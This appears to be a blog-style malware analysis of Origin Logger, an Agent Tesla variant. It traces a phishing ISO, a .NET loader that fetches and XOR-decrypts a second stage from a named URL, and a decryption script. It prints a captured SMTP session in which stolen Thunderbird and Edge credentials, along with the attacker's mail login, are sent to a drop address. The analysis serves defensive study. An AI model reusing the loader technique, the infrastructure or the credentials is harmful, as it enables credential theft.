

## Conclusion

Origin Logger is a variant of Agent tesla, it is build on top of it and uses all of its capabilities. The malware is spreading using spam emails with a malicious attachments. The malware exfiltrate user accounts and passwords and other information from the infected machine.

## Infection through Email

the infection is started with spam email attached by `.iso` File


the .ISO file contains only an executable with a PDF icon.

## Loader Analysis

the ISO file contains `.exe` file that is likely to be the fist loader. Dropping the executable in Detect It Easy


It is a .NET executable and the entropy is not high, Hopefully it will not be packed . So, I will use `dnSpyEx` to decompile the executable. Going to the Entry Point:


there is Three function calls. `EnableVisualStyles` and `SetCompatibleTextRenderingDefault` both do not contain anything useful as they are library functions and not written by the author.
the third part is creating a instance to `Form1` class.
The constructor contains two functions:


`InitializeComponent` is used to configure the form, it is not part of the malicious code so let's continue to `Socker` function.


by exploring the first function, it stores a random string in `Text` variable and calls `Hyper.Array()`.


`Hyper` class contains the information we are looking for, a link for the second stage.


starting with `Array()` function which calls `GetBuffer()` . `GetBuffer()` just calls `Avrql()` and passing `http://savory.com[.]bd/sav/Ztvfo.png` as an argument.
`Avrql()` function downloads the file `Ztvfo.png` and stores it as an array in the memory and returns that Array. Returning to `Array()` function which takes the downloaded file in `buffer` variable and XOR it with the string `Sfhdjkpkowgnpcgoshb` and stores the XORed data in `list` array.
that's all for the hyper class, returning back to `Socker` to check the other function.


`Void()` loads assembly data stored in `Tag` which is the file downloaded and XORed previously.
To run the loaded assembly, `Lion()` and `Ursa` are used, both Invokes different namespaces from the randomized string `this.richTextBox1.Text = "Gdbtshcw.Sdnceyzqa Vqyhbeqthicxedwtrnxrbzcq"`

## Downloading the second stage

using the PCAP file provided with the sample to get the second stage. we can use `wireshark` to do so.
to Download the file, navigate to `File > Export Objects > HTTP`



The Content of the this file is Encrypted using XOR cipher as we saw previously.
using the following script to decrypt the file

```python
import struct
s=[]
key = b"Sfhdjkpkowgnpcgoshb"
with open("Ztvfo.bin",'rb') as f:
    buff = bytearray(f.read())
    for i in range(len(buff)):
        s.append((buff[i] ^ ord(key[i%len(key)])))
with open("Ztvfo_out.bin",'wb') as f:
    f.write(struct.pack('664576B', *s))
```

## second stage Analysis


Uploading the extracted file to DIE, The executable is obfuscated using .NET Reactor.

## Network capture analysis

from the provided PCAP file of the traffic. Origin Logger exfiltrate the data using SMTP communication. the following is the content of the communication:

```
220-bh-41.webhostbox.net ESMTP Exim 4.95 #2 Thu, 05 Jan 2023 22:51:30 +0000
220-We do not authorize the use of this system to transport unsolicited,
220 and/or bulk e-mail.
EHLO DESKTOP-WIN11PC
250-bh-41.webhostbox.net Hello DESKTOP-WIN11PC [173.66.46.112]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-PIPE_CONNECT
250-AUTH PLAIN LOGIN
250-STARTTLS
250 HELP
AUTH login bWFya2V0aW5nQHRyYW5zZ2Vhci5pbg==
334 UGFzc3dvcmQ6
TUBzc3cwcmQjNjIx
235 Authentication succeeded
MAIL FROM:<marketing@transgear.in>
250 OK
RCPT TO:<zaritkt@arhitektondizajn.com>
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
MIME-Version: 1.0
From: marketing@transgear.in
To: zaritkt@arhitektondizajn.com
Date: 5 Jan 2023 22:51:31 +0000
Subject: PW_windows11user/DESKTOP-WIN11PC
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 01/05/2023 22:51:26<br>User Name: windows11user<br>Computer=
Name: DESKTOP-WIN11PC<br>OSFullName: Microsoft Windows 11 Pro<br=
>CPU: Intel(R) Core(TM) i5-13600K CPU @ 5.10GHz<br>RAM: 32165.83 =
MB<br>IP Address: 173.66.46.112<br><hr>URL:imap://mail.windows11u=
sers.com<br>=0D=0AUsername:admin@windows11users.com<br>=0D=0APass=
word:EBj%U7-p@q4NW<br>=0D=0AApplication:Thunderbird<br>=0D=0A<hr>=
=0D=0AURL:smtp://mail.windows11users.com<br>=0D=0AUsername:admin@=
windows11users.com<br>=0D=0APassword:EBj%U7-p@q4NW<br>=0D=0AApplicat=
ion:Thunderbird<br>=0D=0A<hr>=0D=0AURL:webmail.windows11users.com=
<br>=0D=0AUsername:admin@windows11users.com<br>=0D=0APassword:EBj=
%U7-p@q4NW<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<hr>=0D=0AURL=
:https://login.us.coca-cola.com/<br>=0D=0AUsername:admin@windows1=
1users.com<br>=0D=0APassword:Zp61-7$r#J_iLpCYV&jKr<br>=0D=0AAppli=
cation:Edge Chromium<br>=0D=0A<hr>=0D=0AURL:https://www.linkedin.=
com/<br>=0D=0AUsername:admin@windows11users.com<br>=0D=0APassword=
:TqQPvG#0g%$ga_q51<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<h=
r>=0D=0AURL:https://www.amazon.com/ap/signin<br>=0D=0AUsername:ad=
min@windows11users.com<br>=0D=0APassword:3Fo76#PTf4P$Im!9mkLso69e=
T<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<hr>=0D=0AURL:https=
://www.target.com/login<br>=0D=0AUsername:windows11user<br>=0D=0APas=
sword:c$Kl3wO!e#i7A&!L2<br>=0D=0AApplication:Edge Chromium<br>=0D=0A=
<hr>=0D=0AURL:https://myaccount.nytimes.com/auth/login<br>=0D=0AU=
sername:admin@windows11users.com<br>=0D=0APassword:u*N21Or650yBps=
p45awSa<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<hr>=0D=0A
.
250 OK id=1pDZ59-000wFk-B4
QUIT
221 bh-41.webhostbox.net closing connection
```

the exfiltrated data
| type of data | example from the PCAP |
| -------------------------- | ----------------------------------------------------------------------------------------------------------- |
| Current Time | 01/05/2023 22:51:26 |
| OS Full Name | Microsoft Windows 11 Pro |
| CPU | Intel(R) Core(TM) i5-13600K CPU @ 5.10GHz |
| RAM | 32165.83 MB |
| IP Address | 173.66.46.112 |
| URL | imap[://]mail.windows11users[.]com |
| Username | admin@windows11users[.]com |
| Password | EBj%U7-p@q4NW |
| Application: Edge Chromium | AURL=https[://]login.us.coca-cola[.]com/ Username:admin@windows11users[.]com Password:Zp61-7$r#J_iLpCYV&jKr |

it steals the username and password of the user and send data of the current machine and steals user accounts from different locations like thunderbird and edge browser.

## References

https://www.malware-traffic-analysis.net/2023/01/05/index.html

## File hashes

- 926a3142270a52f8afb93490d5dd21f0ca23bc0815ee6630068cf6409d8ee448
- 5016ba92afac1c2b2a2a6b17a09406869bd6f58cfe680f25030af1a1ba1c29a2
- 90d977ca0a3331d78005912d2b191d26e33fa2c6ef17602d6173164ba83fd85e
- 3883d374ba0736254a89e310b86f3c3769adcaed471b103b5c0a8a2f16cf5c8d
